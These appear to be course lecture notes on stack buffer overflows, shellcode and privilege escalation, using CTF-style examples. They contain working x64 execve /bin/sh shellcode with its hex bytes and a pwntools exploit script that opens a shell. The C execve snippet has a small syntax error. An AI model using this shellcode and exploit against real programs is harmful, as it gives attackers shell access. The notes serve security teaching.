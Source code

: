 ```yaml
---
layout: ../../../layouts/SemesterMarkdown.astro
---
```




# Shellcode and privilege escalation

## Introductions

- introductions of two students

## Key concepts

### Basic buffer overflow

We have previously used a buffer overflow to overwrite the return address with
an address of our choosing. For example, this could go into the code block to
execute some functionality that was not intended. In our toy examples this code
would print out a congratulations message or a flag, but a more dangerous piece
of code might grant the user administrative privileges.

<Image alt="basic buffer overflow, overwriting the return address with a pointer into the code block" src={basic_overflow} />

### Injecting code onto the stack

A more advanced attack injects code onto the stack, then writes the return
address to point to that code. The attack code could come before or after the
return address. In case the return address doesn't point exactly to the start of
the injected code, the attacker can add a NOP sled in front of the code.

<Image alt="buffer overflow that injects code onto the stack" src={injecting_code} />

The injected code could execute:

- `cat /flag.txt` in a CTF contest
- `/bin/sh` if wanting to create a shell (which then lets the attacker execute
  any other command)

### The execve() system call

The `execve` system call allows a program to transform itself into a new process
-- "stop running my program, and run this other program instead". Never returns
to the calling program unless an error occurred when creating the new process
image.

```c
#include <unistd.h>

int execve(const char *pathname, char *const _Nullable argv[],
           char *const _Nullable envp[]);
```

- `pathname` is the path to a binary executable
- `argv` is an array of arguments for the program
- `envp` is an array of environment variables of the form `key=value`

Your shell might use this to start a program when you type a command at the
prompt:

```c
char *name[2];
name[0] = "curl";
name[1] = 'https://someURL.com';
execve("/usr/bin/curl", name, NULL);
```

### Shellcode

When an attacker injects code, it is really useful to have that code spawn a
shell. They can do this using `execve` to start `/bin/sh`. To write shellcode:

- write assembly to launch the shell
- compile this into a binary
- extract the raw bytes to use for injection

Here is some
[example shellcode](https://book.jorianwoltjer.com/binary-exploitation/shellcode)
for the x64 architecture:

```asm
.global _start
_start:
.intel_syntax noprefix
        mov rax, 59           ; choose which syscall: execve (see x64.syscall.sh)
        lea rdi, [rip+binsh]  ; set a *pointer* to the /bin/sh string as 1st argument
        mov rsi, 0            ; set 2nd argument (argv[]) to NULL
        mov rdx, 0            ; set 3rd argument (envp[]) to NULL
        syscall               ; perform the syscall we set up
binsh:
        .string "/bin/sh"     ; include the string we referenced
```

You can then compile this and convert it to an ascii representation:

```sh
# compile
gcc -nostdlib -static shellcode.s -o shellcode-elf
# convert to raw
objcopy --dump-section .text=shellcode-raw shellcode-elf
# hexdump to ascii
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode-raw; echo
```

This is the resulting string:

```
\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x0f\x05\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

To complete the attack manually, you can use `gdb` to identify the address of
the area where the code is located, using this to overwrite the return address.

### Simplifying the attack

You can use `pwntools` to greatly simplify a buffer overflow attack. A
[video from CryptoCat](https://www.youtube.com/watch?v=4zut2Mjgh5M) walks
through this process in detail. The script below shows the primary pieces of the
attack.

```python
# Offset to EIP (return address)
padding = 76

# Assemble the byte sequence for 'jmp esp' so we can search for it
# This finds a "jump esp" instruction that already exists in the binary, and points to the address of
# that instruction. The ESP will point to the memory location right after the return address, which
# is where you will put your payload.
jmp_esp = asm('jmp esp')
jmp_esp = next(elf.search(jmp_esp))

# shellcode to run /bin/sh
shellcode = asm(shellcraft.sh())
# you could alternatively have shellcode to print the flag
# shellcode = asm(shellcraft.cat('flag.txt'))

# Build payload
payload = flat(
    asm('nop') * padding,
    jmp_esp,
    asm('nop') * 16,
    shellcode
)

# Write payload to file to use later
write("payload", payload)

# Exploit
io.sendlineafter(b':', payload)

# Get flag/shell
io.interactive()
```

### Privilege escalation

Privilege escalation occurs any time an attacker is able to increase their
privileges. For example:

- moving from existing program functionality to running a shell
- moving from a sandbox to the entire filesystem
- moving from a non-root account to a root account
- moving from user space privileges to kernel-mode privileges

Our shellcode examples fall under the first category.

### Additional reading

- [writing Windows shellcode](https://idafchev.github.io/blog/writing_windows_shellcode/)
